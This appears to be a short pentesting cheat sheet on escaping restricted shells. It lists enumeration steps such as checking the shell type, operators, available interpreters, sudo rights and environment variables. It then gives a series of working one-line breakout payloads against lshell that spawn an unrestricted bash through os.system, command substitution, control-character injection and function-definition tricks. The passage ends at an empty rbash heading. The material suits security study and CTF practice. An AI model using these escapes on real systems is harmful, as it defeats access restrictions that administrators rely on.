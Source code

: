 **Restricted shell escape techniques:**

Get your restricted shell type by hitting: ``$SHELL`` or ``$0``

First, check available commands such as ``cd``, ``ls``, ``echo``, etc.
Second, check for available operators such as ``>``, ``>>``, ``<``, ``|``.
Third, check available programming languages such as ``perl``, ``ruby``, ``python``, etc.
Fourth, check whether you can run commands as root ``sudo -l``.
Fifth, check environmental variables ``run env`` or ``printenv``

##

**For** ``lshell``:

```
# echo os.system('/bin/bash')
```

```
# echo "#!/bin/bash" > shell.sh
# echo "/bin/bash" >> shell.sh
# echo'/shell.sh'
```

```
# echo "#!/bin/bash" > shell.sh
# echo "/bin/bash" >> shell.sh
# echo^Khohoho/shell.sh
```

```
# echo "$(bash 1>&2)"
```

```
# echo <CTRL+V> <CTRL+J>
# bash
```

```
# ?
cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo
# ll non-existent-dir || 'bash'
```

```
# echo () bash && echo
``` 

```
# echo<CTRL+V><CTRL+I>() bash && echo
```

```
# echo FREEDOM! && help () bash && help 
FREEDOM!
```

##

**For** ``rbash``:
